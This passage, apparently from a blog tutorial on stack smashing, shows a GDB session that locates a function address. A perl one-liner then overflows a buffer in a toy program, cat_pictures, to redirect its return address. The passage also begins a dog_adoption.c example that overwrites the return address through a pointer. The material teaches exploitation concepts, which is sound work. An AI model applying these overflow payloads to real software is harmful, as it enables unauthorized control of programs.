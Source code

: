 ```c
int main(int argc, char **argv) {
    foo(argv[1]);
    return 0;
}
```

Recompile and run the program in GDB, breaking at the beginning of the `main` function.  This will allow us to determine the address of the new `ratm` function:

<pre>
$ gdb cat_pictures
Reading symbols from cat_pictures...done.
<span style="color: green;">(gdb)</span> b main
Breakpoint 1 at 0x1195: file cat_pictures.c, line 15.
<span style="color: green;">(gdb)</span> r
Starting program: /home/btoll/cat_pictures

Breakpoint 1, main (argc=1, argv=0x7fffffffdf78) at cat_pictures.c:15
15          foo(argv[1]);
<span style="color: green;">(gdb)</span> x ratm
0x555555555145 <ratm>:  0xe5894855
<span style="color: green;">(gdb)</span>
</pre>

Append the address `0x555555555145` to our input and call the program again (this time from the command line):

```bash
$ ./cat_pictures $(perl -e 'print "A"x18 . "\x45\x51\x55\x55\x55\x55"')
AAAAAAAAAAAAAAAAAAEQUUUU
and now you do what they told ya
Segmentation fault (core dumped)
```

Works.  Weeeeeeeeeeeeeeeeeeeeeeeee

---

Let's look at another example.  In the `dog_adoption.c` program, we have a contrived example, but one that illuminates further how the return value can be controlled to do clever things.  Here, it's using a pointer to overwrite the return address with another which will skip over the rest of the `if` block in `main` and allow us to adopt another dog:

`dog_adoption.c`

<pre>
#include &lt;stdio.h&gt;

int adoption() {
    int current = 4;
    int *ret;

    ret = &amp;current + 5;     <span style="color: green;">[1]</span>
    *ret += 24; 	    <span style="color: green;">[2]</span>

    return current;
}


[Stack smashing]: https://en.wikipedia.org/wiki/Stack_buffer_overflow
[NX bit]: https://en.wikipedia.org/wiki/NX_bit
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[stack canaries]: https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries
[GDB]: https://www.gnu.org/software/gdb/
[`strcpy` man page]: http://man7.org/linux/man-pages/man3/strcpy.3.html
[there are no strings in C]: https://stackoverflow.com/questions/14709323/does-c-have-a-string-type
[`-fno-stack-protector`]: https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector
[little-endian]: https://en.wikipedia.org/wiki/Endianness
[On Debugging with GDB]: /2018/05/19/on-debugging-with-gdb/
[`hexdump`]: http://man7.org/linux/man-pages/man1/hexdump.1.html
[the second half]: /2019/04/10/on-stack-smashing-part-two/
[Hacking: The Art of Exploitation]: https://en.wikipedia.org/wiki/Hacking%3A_The_Art_of_Exploitation